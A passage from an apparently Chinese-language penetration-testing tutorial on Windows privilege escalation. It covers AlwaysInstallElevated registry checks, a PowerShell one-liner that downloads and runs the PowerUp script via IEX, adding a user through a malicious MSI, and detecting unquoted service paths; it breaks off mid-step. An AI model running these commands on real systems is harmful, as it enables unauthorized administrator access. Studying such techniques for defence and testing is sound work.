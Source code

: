 #### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8)metasploit 下的利用

对应模块 `service_permissions`。

### [](#%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE-alwaysinstallelevated)注册表键 AlwaysInstallElevated

`AlwaysInstallElevated` 是一个策略设置。微软允许非授权用户以 `SYSTEM` 权限运行安装文件 (MSI)，如果用户启用此策略设置，那么黑客利用恶意的 `MSI` 文件就可以进行管理员权限的提升。假设我们拿到目标主机的 `Meterpreter` 会话后并没能通过一些常规方式取得 `SYSTEM` 权限，那么 `AlwaysInstallElevated` 提权可以给我们带来另一条思路。

-   手动检测注册表：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

如果值均为 `1`，说明存在风险

-   PowerUp 脚本

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Get-RegistryAlwaysInstallElevated"<br>``` |

添加账户

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>Write-UserAddMSI<br>``` |

以普通用户运行

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>msiexec /q /i UserAdd.smi<br>``` |

也可以利用 `msf` 中的 `always_install_elevated` 模块

### [](#%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%BC%8F%E6%B4%9E)可信任服务路径漏洞

#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8-1)metasploit 下的利用

-   检测目标机器是否存在漏洞

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>wmic service get name,displayname,pathname,startmode\|findstr /i "Auto" \| findstr /i /v "C:\Windows\\"\|findstr /i /v """<br>``` |

-   把要上传的程序重命名并放置在此漏洞且可写的目录下，执行如下命令：
